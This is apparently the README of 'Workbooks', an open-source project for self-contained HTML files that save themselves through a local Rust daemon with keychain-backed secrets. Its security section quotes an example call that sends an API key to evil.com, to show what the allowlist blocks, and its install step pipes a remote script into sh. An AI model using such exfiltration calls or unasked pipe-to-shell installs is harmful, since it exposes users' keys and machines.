



<!-- README — workbooks -->

<p align="center">
  <video src="https://github.com/user-attachments/assets/777b474b-2eac-4f2f-8c20-a34444c959f2" autoplay muted loop playsinline width="800"></video>
</p>

<h1 align="center">Workbooks</h1>

<p align="center">
  <strong>Plain HTML files that save themselves.</strong><br/>
  <sub>One file. Open it. Edit it. Hit save. The file on disk updates.</sub>
</p>

<p align="center">
  <a href="https://workbooks.sh"></a>
  <a href="https://github.com/shinyobjectz-sh/workbooks/releases/latest"></a>
  
  
</p>

---

## Why workbooks

Every device on Earth ships a browser. None of them ship Word, Excel,
Photoshop, or your favourite IDE. The browser is the only universal
viewer humans have agreed on.

But the browser was built for *visiting* — open a URL, look at a page,
move on. It was never designed to be the format for documents you keep
around: spreadsheets you tweak, notebooks you re-run, dashboards you
hand to a colleague.

Workbooks is the missing piece. It treats HTML as a document format —
self-contained, portable, savable — the way Word treated `.doc`. Your
file holds its own runtime, its own code, and its own state. Open it
anywhere; edit it where you have the runtime; share it as a file.

You don't deploy a workbook. You don't host it. You don't pay for it
to be online. **You email it.**

---

## What's in the file

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/diagrams/anatomy.svg">
  
</picture>

A workbook is **one HTML file**. Open it in any browser and it renders
— without anything installed. With the runtime installed, the same
file becomes editable: changes survive a refresh because they're
written back to the bytes on disk.

Three layers, all inlined:

- **Runtime** — Yjs CRDT, save handler, daemon-link bootstrap. Compresses to ~850 KB. Self-decompresses when the page loads.
- **Your code** — what `workbook build` bundles from your project. Single JS chunk, no external CDN, no fetch on open.
- **Persisted state** — `<script id="wb-snapshot:…">` and `<script id="wb-wal:…">` blocks at the bottom of the body. The file *is* the database.

Share the file → you ship the state with it.

---

## How it runs

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/diagrams/runtime.svg">
  
</picture>

Workbooks needs exactly one component you don't already have: a tiny
Rust daemon (`workbooksd`, ~1 MB) that runs in the background and
brokers between the browser and your filesystem. Every other piece is
already on your machine.

When you double-click a workbook `.html` file:

1. The OS routes the file to `Workbooks.app` — installed by `workbooks.sh` and registered as the per-file handler via the `LaunchServices.OpenWith` extended attribute the daemon stamps on every workbook it sees.
2. The app asks the daemon to bind the file's path to a session token.
3. The daemon opens your default browser at `http://127.0.0.1:<port>/wb/<token>/` (the daemon binds a random port at startup; the app reads it from `runtime.json`).
4. The browser loads the workbook from the daemon (same origin, full power).
5. ⌘S sends the new bytes back; the daemon does an atomic rename. **No partial writes, no temp leftovers, no race with whatever is reading the file.**

A workbook is just an HTML file — open it in any browser without installing the daemon and it still renders. The daemon is what unlocks save-in-place, secrets, and per-file API key allowlists.

The daemon is small on purpose. Less than 4 MB on disk. Single
binary, no Electron, no WebView, no Tauri. Your default browser does
all the rendering — the daemon just owns the parts a browser can't:
filesystem and OS keychain.

---

## Secrets, accounted for

Self-serve workbooks need API keys. We treated this like a security
product, because that's what it is.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/diagrams/secrets.svg">
  
</picture>

A user pastes their fal.ai or ElevenLabs API key once into the
Integrations panel. Here's everything that happens:

- **Storage** — daemon writes the value to the OS keychain (macOS Keychain / Linux Secret Service / Windows Credential Manager), namespaced by a hash of the workbook's path. Workbook B served by the same daemon **cannot** read workbook A's keys.
- **Use** — when the agent (or your code) calls `wb.fetch({ url, auth: { secretId: "FAL_API_KEY", ... } })`, the daemon resolves the value, splices it into the named header, and forwards the HTTPS request. The browser never sees the value.
- **Outbound limits** — the workbook's own config declares which hosts each secret may be sent to. The daemon refuses anything else with `403`. A malicious skill can't say `wb.fetch("https://evil.com", { auth: { secretId: "FAL_API_KEY" } })` and have the daemon helpfully forward your key.
- **Save scan** — before persisting a workbook back to disk, the daemon scans the body for any active secret value as a literal substring. If the agent accidentally embedded your key into composition HTML, save is **refused** with a `409 Conflict`. (varlock-inspired; a real attack the file-as-database model otherwise enables.)
- **Page-side defense** — the SDK patches `console.*`, error handlers, and global `fetch`. Any registered secret value that ends up in a log or a cross-origin request gets scrubbed or refused at the JavaScript layer.
- **Memory hygiene** — keychain reads land in a `secrecy::SecretString`. Drop zeroizes the buffer; `Debug` prints `[REDACTED]`.
- **Headers** — every served workbook page comes with `Content-Security-Policy: connect-src 'self'`, `Referrer-Policy: no-referrer`, `X-Content-Type-Options: nosniff`. CSP alone blocks most of these attacks at the browser layer; the daemon-side checks are the belt under the suspenders.
- **Audit** — every read/write/proxy lands in `~/Library/Logs/workbooksd-audit.log`. Timestamps, paths, secret ids, upstream hosts. **Never values.**

You get an "ending in `xyzy`" preview computed daemon-side so the UI
can confirm the right key is set without ever re-reading the value
back to browser memory.

> **Plain English:** sharing a workbook file is safe. Receiving one
> someone else built is safe. Pasting a key into one is safe. Each of
> those statements is the daemon's job.

Full threat model: [docs/SECURITY_MODEL.md](docs/SECURITY_MODEL.md).

---

## Try one

```sh
curl -fsSL https://workbooks.sh/install | sh
```

This puts a small program (about 1 MB) in the background of your Mac.
After that, every workbook you double-click opens in your browser and
can save in place — like a document.

Then grab any of the examples and double-click:

```sh
git clone https://github.com/shinyobjectz-sh/workbooks
open workbooks/examples/csv-explore/dist/csv-explore.html
```

The page comes up. Drop a CSV. Type SQL. Hit save. The file changes
on disk. Send it to a colleague. They get your data and your queries.

---

## Make your own

```sh
npm install -g @work.books/cli
workbook init my-thing
cd my-thing
workbook dev
```

Edit `main.js`. The page reloads. Standard front-end loop.

When you're done:

```sh
workbook build
```

Out comes one `dist/my-thing.html` file. Email it. Drop it
on a USB stick. Put it on a CDN. It opens anywhere — it's plain HTML.

A starter `workbook.config.mjs` declares what your workbook needs:

```js
export default {
  name: "my thing",
  slug: "my-thing",
  type: "spa",                 // "document" | "notebook" | "spa"
  entry: "src/index.html",
  wasmVariant: "app",          // "app" | "minimal" | "default"
  secrets: {
    FAL_API_KEY: { domains: ["*.fal.run"] },
  },
};
```

That `secrets` block is the daemon's enforcement contract. The cli
bakes it into the workbook; the daemon reads it at serve time;
`/proxy` refuses any URL whose host doesn't match.

Author guides:
[docs/WORKBOOK_AUTHORING.md](docs/WORKBOOK_AUTHORING.md) ·
[docs/SPEC.md](docs/SPEC.md) ·
[docs/OPERATIONS.md](docs/OPERATIONS.md).

---

## What's possible

A workbook is not "an app" or "a notebook" — it's a *shape*. Some
shapes we ship today, others you'll find first:

- **Live data tools** — CSV explorer, SQL workbench, Polars notebooks. Drop a file, run queries, save state with the file.
- **Reactive notebooks** — cells, DAG, hot recompute. Same file format whether you're authoring or reading.
- **Self-contained micro-apps** — chess, drawing tools, image editors. State lives in the file; share it = ship it.
- **LLM-agent-authored documents** — colorwave, sift. The agent edits the workbook in place; the user co-edits live.
- **Cross-team artifacts** — incident reports that re-run their own queries; status pages that hold their own data; product specs with embedded interactive demos.
- **Encrypted workbooks** — passphrase-locked at rest, opened with the runtime; secrets never round-trip through any server.

The constraint isn't the format. The constraint is figuring out what
*you* want to put in a file that opens forever.

---

## Pieces

|  | what | scope |
|---|---|---|
| `packages/workbooksd` | The Rust daemon. Save broker, secrets vault, file association handler. | ~1 MB, single binary |
| `packages/runtime` | Browser-side runtime + SDK (`wb.text`, `wb.collection`, `wb.app`, `wb.secret`, `wb.fetch`). | npm: `@work.books/runtime` |
| `packages/runtime-wasm` | The Rust + WASM heavy lifters (Polars, Plotters, Rhai, Candle). Three pre-built feature slices. | npm: `@work.books/runtime-wasm` |
| `packages/workbook-cli` | Author tools: `workbook init`, `dev`, `build`, `check`. | npm: `@work.books/cli` |
| `packages/workbook-substrate` | The file-as-database parser, hydrator, integrity guard. | npm: `@work.books/substrate` |
| `examples/` | Reference workbooks. Each ships a built `.html` artifact you can open. | clone-and-open |
| `site/` | The workbooks.sh landing page + installer script. | Cloudflare Pages |
| `docs/` | Spec, operations, security model, refactor notes. | start [here](docs/SPEC.md) |

---

## Status

**Daemon, macOS** — shipping. Apple Developer ID signed, Apple
notarized, SHA-256 verified. Apple Silicon and Intel.

**Daemon, Linux** — shipping (x86_64). Bare ELF binary on the same
release page; install script handles the placement.

**Daemon, Windows** — wired in CI, awaits signing pipeline (Microsoft
Trusted Signing).

**SDK + cli** — published on npm. Stable.

**Runtime-wasm slices** — three variants on disk; CLI picks via
`wasmVariant`. Build-time check warns if you've picked one too small
for your code.

**Secrets API** — phase 1 (daemon keychain + proxy), phase 2 (domain
allowlist + save-scan + audit log + memory hygiene), phase 3 (page-
side leak defense + redacted previews) — all live in `workbooksd
0.1.0`.

The architecture is settled. The roadmap from here is about more
shapes, more examples, sharper docs. Nothing breaking; nothing
load-bearing left to bolt on.

---

## Questions you might have

**Is this just an Electron alternative?**
No. Electron ships a browser engine *with each app* (~150 MB). Workbooks
ships nothing — your browser is the browser, the daemon is 1 MB, and a
workbook file averages 1–10 MB depending on the WASM slice. Electron is
how you build a desktop app on web tech. Workbooks is how you build a
*document format* on web tech.

**Is this just a static-site generator?**
No. A static-site generator builds an HTML file. A workbook is also an
HTML file, but it has a runtime, persistent state, and a save loop. The
file is the application AND the database. After your "static" build, a
workbook can still be edited, the edits stick, and the file you keep
sharing has them.

**Why not just use the File System Access API?**
We do, where it works. But it's Chromium-only, requires user permission
each session, and refuses to bind a file you opened via `file://` —
which is most of the workflows users actually want. The daemon route
gives the same UX everywhere.

**Why not Tauri / WebView / Wails?**
Those bundle a web view *with each app*. The pitch is one file per
"app", which means we can't ship a runtime per file. The right shape
for the workbooks model is one runtime per *machine*, and the file
itself stays portable.

**What if the daemon isn't installed?**
The file still opens. It just opens read-only — every other browser
capability (rendering, scripting, WASM, IndexedDB) works fine. Hit Cmd+S,
nothing happens; that's it.

**Is the runtime open source?**
Yes. Apache-2.0. The whole repo: daemon, cli, runtime, runtime-wasm,
substrate. The notarization keys aren't shared, but anyone can build
unsigned binaries from source.

---

<p align="center">
  <strong>workbooks.sh</strong><br/>
  <sub>plain html files that save themselves.</sub>
</p>
